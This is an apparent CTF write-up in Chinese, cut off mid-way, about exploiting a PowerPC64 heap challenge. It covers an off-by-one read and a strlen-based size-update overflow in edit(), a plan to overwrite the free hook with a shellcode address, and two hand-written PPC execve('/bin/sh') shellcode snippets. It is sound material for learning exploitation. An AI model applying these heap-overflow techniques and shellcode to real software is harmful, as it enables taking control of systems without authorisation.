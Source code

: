 当已经读取的字符数s14等于参数param_2时，根据该条件判断循环应该停止，但实际上还会继续读取一个字符并判断是否为换行符。这意味着如果输入的数据长度正好等于参数param_2，那么循环将在读取到最后一个字符时停止，但是仍然会将该字符存储在缓冲区中，从而导致缓冲区溢出。

add函数中只允许申请小于0x91的chunk，可以判断基本上是使用tcache来利用。但是考虑到ppc是大端序，只溢出一字节覆盖不到size，再看edit函数中有没有漏洞：

```c
  else {
    0000001b.plt_call.printf@@GLIBC_2.4("New book description: ");
    my_read(*(longlong *)(bookList + ((longlong)iVar1 * 0x40) + 0x30),
            *(uint *)(bookList + ((longlong)iVar1 * 0x40) + 0x38));
    newbooksize = 0000001b.plt_call.strlen@@GLIBC_2.3
                      (*(undefined8 *)(bookList + ((longlong)iVar1 * 0x40) + 0x30));
    *(undefined4 *)(bookList + ((longlong)iVar1 * 0x40) + 0x38) = newbooksize;
  }
```

edit再修改完chunk后重新使用strlen()更新了booksize，导致多次修改会造成堆溢出。

另外经过调试附件中的libc，发现libc中将system改成了0xdeadbeef，所以system想getshell就不可能了，考虑到远程应该是qemu模拟的程序，是可以执行shellcode的，我们将freehook改成shellcode的地址即可。

**注：**：

qemu用户调试vmmap不能看，libc也没有符号表，可以编译一个ppc64的qemu文件系统进行远程调试，但是像x86-64下的heap相关命令也是用不了的，不过可以查看vmmap和libc符号表。

## shellcode编写

尝试自己编写shellcode。这里和32位的ppc是类似的，具体实现时针对r3寄存器的设置我用了三种思路

要执行`execve("/bin/sh", NULL, NULL)`，r3要指向对应字符串，可以将/bin/sh写到堆上然后让r3指过去。在调试的时候发现寄存器r9就是一个堆上的地址，所以第一种思路就是直接通过异或把值迁移到r3上再进行相应偏移的调整即可

shellcode做的就是首先清空r3、r4、r5寄存器，将r0赋值为11对应execve，然后通过异或和加法让r3指向/bin/sh，最后sc即执行系统调用
```python
sc1='''
li 3, 0
li 4, 0
li 5, 0
li 0, 11
xor 3,3,9
addi 3,3,36
sc
'''
```
第二种思路是把地址拼出来，需要用到移位操作
addis是将计算结果左移2字节后再进行存储，sld是左移双字的意思。同时由于限制操作数的大小所以低两个字节需要两次加法得到
```python
sc2='''
li 3, 0
li 4, 0
li 5, 0
li 0, 11
addis 3, 4, 8
addi 4, 4, 19
sld 3, 3, 4
li 4, 0
addis 4, 4, {}
addi 3, 3, {}
addi 3, 3, {}+24
add 3, 3, 4
li 4, 0
sc
'''.format((binsh&0xff0000)>>16, (binsh&0xffff)/2, (binsh&0xffff)/2)
```
